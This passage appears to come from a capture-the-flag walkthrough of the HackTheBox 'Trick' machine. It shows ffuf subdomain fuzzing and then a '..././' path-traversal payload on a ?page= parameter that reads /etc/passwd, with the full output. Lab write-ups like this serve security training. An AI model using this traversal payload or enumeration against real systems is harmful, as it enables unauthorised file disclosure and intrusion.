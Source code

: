 ```sh
ffuf -u http://trick.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: preprod-FUZZ.trick.htb" -fs 5480
________________________________________________
 :: Method           : GET
 :: URL              : http://trick.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: preprod-FUZZ.trick.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 5480
________________________________________________

marketing               [Status: 200, Size: 9660, Words: 3007, Lines: 179, Duration: 434ms]
```

* We got a hit on `preprod-marketing.trick.htb`

![[./Screenshots/marketing.png]]

* After some enumeration with ffuf and nikto I the get parameter `?page=` looked like it is loading files

```sh
http://www.preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././..././etc/passwd

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:104:110::/nonexistent:/usr/sbin/nologin tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin saned:x:112:121::/var/lib/saned:/usr/sbin/nologin colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false sshd:x:118:65534::/run/sshd:/usr/sbin/nologin postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin bind:x:120:128::/var/cache/bind:/usr/sbin/nologin michael:x:1001:1001::/home/michael:/bin/bash
```
